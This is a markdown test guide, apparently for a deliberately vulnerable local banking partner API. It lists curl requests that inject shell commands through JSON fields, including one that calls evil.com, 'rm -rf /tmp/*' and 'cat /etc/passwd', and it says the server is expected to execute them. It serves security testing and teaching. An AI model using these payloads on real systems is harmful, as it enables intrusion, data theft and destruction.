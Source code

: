 # Test Command Injection API Endpoints

## Test 1: Partner Transaction API with Command Injection

### Safe Request (Normal Use Case)
```bash
curl -X POST http://localhost:3000/api/partners/transactions \
  -H "Content-Type: application/json" \
  -d '{
    "partner_bank_code": "BANK001",
    "batch_id": "BATCH123",
    "transactions": [
      {
        "amount": 100.50,
        "currency": "USD",
        "company_name": "Acme Corp",
        "reference": "REF001",
        "description": "Payment for services"
      }
    ]
  }'
```

### Vulnerable Request 1: Command Injection via company_name
```bash
curl -X POST http://localhost:3000/api/partners/transactions \
  -H "Content-Type: application/json" \
  -d '{
    "partner_bank_code": "BANK001",
    "batch_id": "BATCH123",
    "transactions": [
      {
        "amount": 100.50,
        "currency": "USD",
        "company_name": "Evil Corp; echo 'HACKED' > /tmp/pwned.txt; echo",
        "reference": "REF001",
        "description": "Payment for services"
      }
    ]
  }'
```

### Vulnerable Request 2: Command Injection via description
```bash
curl -X POST http://localhost:3000/api/partners/transactions \
  -H "Content-Type: application/json" \
  -d '{
    "partner_bank_code": "BANK001",
    "batch_id": "BATCH123",
    "transactions": [
      {
        "amount": 6000.00,
        "currency": "USD", 
        "company_name": "Large Corp",
        "reference": "REF002",
        "description": "Large payment; curl http://evil.com/steal-data; echo"
      }
    ]
  }'
```

### Vulnerable Request 3: Command Injection via batch_id
```bash
curl -X POST http://localhost:3000/api/partners/transactions \
  -H "Content-Type: application/json" \
  -d '{
    "partner_bank_code": "BANK001",
    "batch_id": "BATCH123; rm -rf /tmp/*; echo vulnerable",
    "transactions": [
      {
        "amount": 100.50,
        "currency": "USD",
        "company_name": "Test Corp",
        "reference": "REF003",
        "description": "Test payment"
      }
    ]
  }'
```

## Test 2: Legacy Integration API

### Vulnerable Request: Command Injection via partner_id
```bash
curl -X POST http://localhost:3000/api/legacy/integration \
  -H "Content-Type: application/json" \
  -d '{
    "partner_id": "LEGACY01; whoami > /tmp/user.txt; echo",
    "xml_data": "<transaction><amount>100</amount></transaction>",
    "notification_url": "http://localhost/notify"
  }'
```

### Vulnerable Request: Command Injection via notification_url
```bash
curl -X POST http://localhost:3000/api/legacy/integration \
  -H "Content-Type: application/json" \
  -d '{
    "partner_id": "LEGACY01",
    "xml_data": "<transaction><amount>100</amount></transaction>",
    "notification_url": "http://evil.com; cat /etc/passwd; echo"
  }'
```

## Expected Behavior

All vulnerable requests should:
1. Return HTTP 200 with success response
2. Execute the injected commands on the server
3. Log the executed commands in the console output
4. Demonstrate how input validation failures can lead to command injection

## Monitoring Command Execution

Watch the Node.js application console output to see the executed commands. You should see log messages like:
- "Log command executed (may have failed): ..."
- "Notification command executed (may have failed): ..."
- "Summary command executed (may have failed): ..."